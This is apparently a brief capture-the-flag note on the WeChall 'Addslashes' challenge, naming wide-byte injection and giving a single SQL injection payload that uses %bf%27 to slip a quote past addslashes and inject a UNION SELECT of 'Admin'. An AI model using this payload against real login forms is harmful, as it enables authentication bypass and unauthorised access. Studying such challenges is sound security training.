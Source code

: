 # Wechall

## Addslashes

-   宽字节注入
-   `username=a%bf%27 union select 0x41646d696e-- &password=tt&login=Login`
